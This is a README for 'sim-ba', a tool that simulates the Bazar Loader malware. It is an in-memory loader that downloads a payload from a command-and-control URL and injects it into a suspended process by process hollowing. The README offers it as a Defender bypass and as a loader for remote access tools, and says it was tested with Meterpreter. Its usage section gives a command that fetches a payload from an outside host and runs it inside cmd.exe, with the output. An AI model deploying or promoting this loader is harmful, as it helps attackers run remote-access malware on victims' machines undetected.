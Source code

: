 # sim-ba
(Sim)ulate (Ba)zar Loader

## Introduction
Sim-Ba is an in-memory PE Loader designed to simulate the behaviour of [Bazar Loader](https://www.vkremez.com/2020/04/lets-learn-trickbot-bazarbackdoor.html). It downloads the payload from C2 URL (http or https) and uses Process Hollowing method to inject downloaded PE into the new process created in suspended state. Process Hollowing is already a well-known and commonly used injection [technique](https://attack.mitre.org/techniques/T1055/012/) by malware developers. Sim-Ba is a modified version of another Process Hollowing repository: [idan1288/ProcessHollowing32-64](https://github.com/idan1288/ProcessHollowing32-64) 

## Defender Bypass
Sim-Ba can be used as the loader for your favourite RAT. I tested with Meterpreter on updated Win10 (15.11.2020).

![cmd](pics/cmd.png)
![meterpreter](pics/meterpreter.png)

## Usage
```shell
.\sim-ba.exe [Target executable] [Payload URL]

.\sim-ba.exe C:\Windows\system32\cmd.exe https://192.168.56.101/notdetected

[+] Running the target executable.
[+] Process created in suspended state.
[+] Connecting to URL for downloading payload
[*] Connecting using HTTPS
[*] Ignoring SSL Certificate Error
[+] Allocating memory in child process.
[*] Memory allocated. Address: 0x140000000
[+] Writing executable image into child process.
[*] New entry point: 0x140004000
[+] Setting the context of the child process's primary thread.
[+] Resuming child process's primary thread.
[+] Thread resumed.
```
